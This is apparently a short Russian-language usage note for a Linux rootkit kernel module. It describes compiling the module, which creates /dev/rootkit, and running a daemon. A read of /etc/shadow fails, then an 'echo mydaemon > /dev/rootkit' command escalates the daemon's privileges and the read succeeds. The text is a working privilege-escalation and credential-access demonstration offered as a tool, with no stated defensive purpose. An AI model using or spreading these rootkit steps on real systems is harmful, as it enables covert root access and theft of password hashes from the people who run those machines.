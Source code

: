 rootkit

Компилоируем модуль. Модуль создает файл устройства "/dev/rootkit"

Запускаем демон "./mydaemon -c start"


Заставляем читать демон системный файл "/etc/shadow". 
"./mydaemon -c read"
Прав не хватает и он плачет в syslog об этом.

Error file open: Permission denied

"Повышаем" права демона
echo "mydaemon" > /dev/rootkit

Просим повторить демона процедуру чтения. Успех.

=======
